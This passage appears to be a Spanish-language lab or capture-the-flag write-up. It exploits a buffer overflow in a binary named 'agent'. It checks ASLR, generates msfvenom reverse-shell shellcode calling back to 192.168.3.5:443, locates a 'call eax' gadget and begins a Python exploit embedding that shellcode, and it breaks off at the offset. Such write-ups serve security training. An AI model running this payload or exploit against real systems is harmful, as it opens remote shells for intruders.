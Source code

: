 Vamos al terminal de la máquina víctima y verificamos si el ‘ASLR’ (Address Space Layout Randomization) está activado.

```
cat /proc/sys/kernel/randomize_va_space
2
```

Si está activado, para verificarlo:

```
ldd /usr/local/bin/agent
	linux-gate.so.1 =>  (0xf7776000)
	libc.so.6 => /lib32/libc.so.6 (0xf75b7000)
	/lib/ld-linux.so.2 (0x56590000)

ldd /usr/local/bin/agent
	linux-gate.so.1 =>  (0xf77b6000)
	libc.so.6 => /lib32/libc.so.6 (0xf75f7000)
	/lib/ld-linux.so.2 (0x565bb000)
```

Vamos a utilizar la herramienta ‘msfvenom’ para generar un ‘shellcode’ que nos permita establecer una 'reverse shell':

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.3.5 LPORT=443 -b '\x00\x0a\x0d' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
unsigned char buf[] = 
"\xdb\xd1\xb8\x50\xfd\x96\x28\xd9\x74\x24\xf4\x5b\x2b\xc9"
"\xb1\x12\x83\xeb\xfc\x31\x43\x13\x03\x13\xee\x74\xdd\xa2"
"\xcb\x8e\xfd\x97\xa8\x23\x68\x15\xa6\x25\xdc\x7f\x75\x25"
"\x8e\x26\x35\x19\x7c\x58\x7c\x1f\x87\x30\xbf\x77\x74\xc5"
"\x57\x8a\x7b\xc4\x1c\x03\x9a\x76\x04\x44\x0c\x25\x7a\x67"
"\x27\x28\xb1\xe8\x65\xc2\x24\xc6\xfa\x7a\xd1\x37\xd2\x18"
"\x48\xc1\xcf\x8e\xd9\x58\xee\x9e\xd5\x97\x71";
```

Vamos a determinar la dirección del registro 'EAX' utilizando el 'OP-code':

```
❯ objdump -d agent | grep -i "FF D0"
 8048563:	ff d0                	call   *%eax
```

Ahora vamos a crear un exploit en Python con el siguiente contenido:

```
#!/usr/bin/python3

from struct import pack
import socket *

shellcode = (b"\xdb\xd1\xb8\x50\xfd\x96\x28\xd9\x74\x24\xf4\x5b\x2b\xc9"
b"\xb1\x12\x83\xeb\xfc\x31\x43\x13\x03\x13\xee\x74\xdd\xa2"
b"\xcb\x8e\xfd\x97\xa8\x23\x68\x15\xa6\x25\xdc\x7f\x75\x25"
b"\x8e\x26\x35\x19\x7c\x58\x7c\x1f\x87\x30\xbf\x77\x74\xc5"
b"\x57\x8a\x7b\xc4\x1c\x03\x9a\x76\x04\x44\x0c\x25\x7a\x67"
b"\x27\x28\xb1\xe8\x65\xc2\x24\xc6\xfa\x7a\xd1\x37\xd2\x18"
b"\x48\xc1\xcf\x8e\xd9\x58\xee\x9e\xd5\x97\x71")

offset = 168
```